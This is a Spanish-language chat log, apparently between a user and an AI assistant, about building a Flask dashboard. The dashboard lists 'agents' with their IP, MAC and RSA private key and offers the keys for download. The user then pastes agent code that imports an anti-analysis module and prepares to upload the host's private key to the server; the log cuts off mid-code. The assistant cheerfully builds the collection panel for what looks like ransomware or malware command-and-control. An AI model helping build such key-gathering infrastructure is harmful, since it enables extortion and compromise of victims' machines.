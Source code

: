 1.  **Ejecuta el servidor Flask**:
    
    ```bash
    python app.py
    ```
    
2.  **Accede a la página** en `http://127.0.0.1:5000/` y podrás ver la lista de agentes con su IP, MAC, y la clave privada. También podrás hacer clic en "Ver Clave" para visualizar o descargar la clave privada en formato `.PEM`.
    

Este formato mantiene la estructura que tenías, pero ahora con un diseño más moderno gracias a Bootstrap.

Si necesitas algún ajuste o algo más, no dudes en comentarlo. ¡Estoy aquí para ayudarte!

## Prompt:
quiero recuperar la clave privada desde aquí: import requests
import socket
import os
import antianalysis

def get_ip_address():
    ip = socket.gethostbyname(socket.gethostname())
    return ip

def load_private_key():
    try:
        with open("rsa_private.pem", 'rb') as f:
            private_key = f.read()
        return private_key
    except FileNotFoundError:
        print("El archivo de clave privada no fue encontrado.")
        return None
    
# Función principal del agente
def register_agent():
    # Obtener IP y MAC del agente
    ip = get_ip_address()
    mac = antianalysis.get_mac_address()
    private_key = load_private_key()
    
    if private_key is None:
        print("No se pudo cargar la clave privada. No se puede registrar el agente.")
        return
    
    # Cargar la clave privada desde el archivo
    server_url = 'http://127.0.0.1:5000/register_agent'
    
    # Crear un diccionario con los datos adicionales
    data = {
        'ip': ip,
        'mac': mac
    }
    files = {
        'private_key': ('rsa_private.pem', private_key, 'application/x-pem-file')
    }
